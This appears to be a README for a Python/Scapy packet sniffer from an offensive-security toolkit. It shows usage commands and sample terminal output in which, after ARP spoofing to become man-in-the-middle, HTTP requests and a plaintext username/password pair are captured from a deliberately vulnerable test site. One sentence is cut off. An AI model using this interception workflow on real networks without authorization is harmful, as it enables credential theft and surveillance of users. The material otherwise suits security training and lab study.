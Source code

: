 # Packet sniffer

Can be used to sniff packets on an interface of the hacking machine, and to .

## Requirements

* Root access
* Python 2 or 3
* Scapy

## Usage

```shell
usage: packet_sniffer.py [-h] [-i INTERFACE]

Example:
        $ sudo python3 packet_sniffer.py -i eth0
```
## Kicking the tyres

Become MitM by running the [arp_spoofer](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 118
```

Start the sniffer:

```shell
@kali:~$ sudo python3 packet_sniffer.py
[sudo] password for <user>: 

```

Go to sites in browser and view results in terminal where sniffer runs:

```shell
@kali:~$ sudo python3 packet_sniffer.py
[sudo] password for <user>: 
[+] HTTP Request >> testphp.vulnweb.com/userinfo.php

[+] Possible username/password >> b'uname=test&pass=test'

[+] HTTP Request >> sqa.fyicenter.com/1000395_Selenium_Tutorials.html
[+] HTTP Request >> sqa.fyicenter.com/getCommForm.php
[+] HTTP Request >> sqa.fyicenter.com/getCommList.php?ID=1000395&P=0
[+] HTTP Request >> sqa.fyicenter.com/getCommList.php?ID=1000395&P=0
[+] HTTP Request >> sqa.fyicenter.com/Selenium/_icon_Selenium.png
[+] HTTP Request >> sqa.fyicenter.com/SQL-Server-Storage/_icon_SQL-Server-Storage.png
```

## Troubleshooting

* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)